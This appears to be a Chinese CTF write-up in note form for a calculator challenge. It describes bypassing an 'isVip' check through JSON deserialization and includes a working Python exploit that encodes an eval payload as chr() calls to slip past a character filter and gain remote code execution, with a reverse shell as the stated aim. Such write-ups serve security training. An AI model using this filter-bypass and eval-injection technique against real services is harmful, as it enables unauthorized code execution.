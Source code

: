 # 思路
	- 绕过`isVip`限制，并利用python eval进行反弹shell
- # 绕过`isVip`限制
	- 题目会将输入的json反序列化`CalculateModel`，使得`isVip`可控，我们只需要传入isVip即可绕过限制
- # python eval反弹shell
	- 题目允许使用英文字母、数字、括号和加号
	- 可以使用`chr`函数配合加号构造任意字符串，并传给eval实现RCE
- # 最终Exp
	- ```python
	  url = "http://891f7411-3837-4f70-bb2e-8f15048b13f5.node4.buuoj.cn:81/calculate"
	  
	  eval_target = """
	  __import__('os').popen({}).read()
	  """.format(repr(reverse_shell_payload))
	  
	  payload = "+".join(f"chr({ord(c)})" for c in f"eval({eval_target!r})")
	  
	  r = base_post(url, json = {
	      "expression": f"eval({payload})",
	      "isVip": True
	  })
	  print(r.text)
	  print(r.headers)
	  ```
- # 施工中
	- 题目接收一个表达式，将其传给nodejs, python和php并分别解析，如果结果相同就返回回显
	- `sleep(5)`可以正常执行
	- 题目frontend接受json并反序列化为`CalculateModel`，这里可以直接通过json将isVip赋值为True
	- 对expression的过滤：
		- ```python
		  regexp = r"^[0-9a-z\[\]\(\)\+\-\*\/ \t]+$"
		  print(re.match(regexp, "123/1") is not None)
		  ```
